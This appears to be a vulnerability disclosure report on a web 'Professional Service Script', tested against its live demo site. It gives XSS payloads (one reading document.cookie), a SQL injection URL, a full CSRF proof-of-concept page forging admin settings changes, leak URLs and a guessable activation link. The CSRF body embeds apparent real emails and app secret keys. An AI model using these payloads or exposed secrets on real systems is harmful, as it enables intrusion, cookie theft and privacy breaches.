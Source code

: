 ### Professional Service Script- the lastest version - SQL Injection/XSS[2]/Arbitrary-Binding/CSRF/Sensitive-Data-Leak[2]

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### XSS1

```
http://ordermanagementscript.com/demo/professional-service/admin/bannerview.php?view=27%27%22%3E666%3Cimg%20src=x%20onerror=console.log(document.cookie)%3E666%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss2.png)


##### XSS2


```
http://ordermanagementscript.com/demo/professional-service/admin/general_settingupd.php
```

POST parameters:

```
------WebKitFormBoundary2ZjWQDBIsgNhKq3e
Content-Disposition: form-data; name="website_title"

Professional Service'"><svg/onload=alert(123)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss1.png)


#### SQL Injection:

##### sqli1
```
http://ordermanagementscript.com/demo/professional-service/admin/review.php?id=70
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/sqli.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/ordermanagementscript.com\/demo\/professional-service\/admin\/general_settingupd.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2ZjWQDBIsgNhKq3e");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_title\"\r\n" + 
          "\r\n" + 
          "Professional Service\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_keyword\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eProfessional Service\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_url\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"commonword\"\r\n" + 
          "\r\n" + 
          "Professional\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_add\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eCompanyName,\x3c/p\x3e\r\n" + 
          "\x3cp\x3ecompany address,\x3c/p\x3e\r\n" + 
          "\x3cp\x3eLocation.\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_email\"\r\n" + 
          "\r\n" + 
          "vsjayan@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"paypal_email\"\r\n" + 
          "\r\n" + 
          "inet.prabhu1716@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"currency\"\r\n" + 
          "\r\n" + 
          "USD\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fb_url\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"tw_url\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"linkedinurl\"\r\n" + 
          "\r\n" + 
          "https://in.linkedin.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gplusurl\"\r\n" + 
          "\r\n" + 
          "https://plus.google.com/explore\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"Img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"banner_img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbappid\"\r\n" + 
          "\r\n" + 
          "320789545076739\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbkey\"\r\n" + 
          "\r\n" + 
          "0e0e841f7583ea866e11839f599c0ffc\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbreurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/fblog_new/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gappid\"\r\n" + 
          "\r\n" + 
          "966064226677-t3jl59r6llcg54dou9lro2kak0pf5n4c.apps.googleusercontent.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gkey\"\r\n" + 
          "\r\n" + 
          "rSiRaC22JZqyv9xUWJjoXZjV\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"greurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/google_plus/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"g_submit\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the user panel.

#### Sensitive-Data-Leak

For example, we can get sensitive info like absolute-path here.
##### Leak1

```
http://ordermanagementscript.com/demo/professional-service/admin/review_userwise.php?id=72%27S
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak1.png)
##### Leak2

```
http://ordermanagementscript.com/demo/professional-service/service-list/category/22/house-cleaning
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak2.png)

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=NTA=
```
After Base64 decode:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding2.png)

So it's easy to predict or enum the uid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.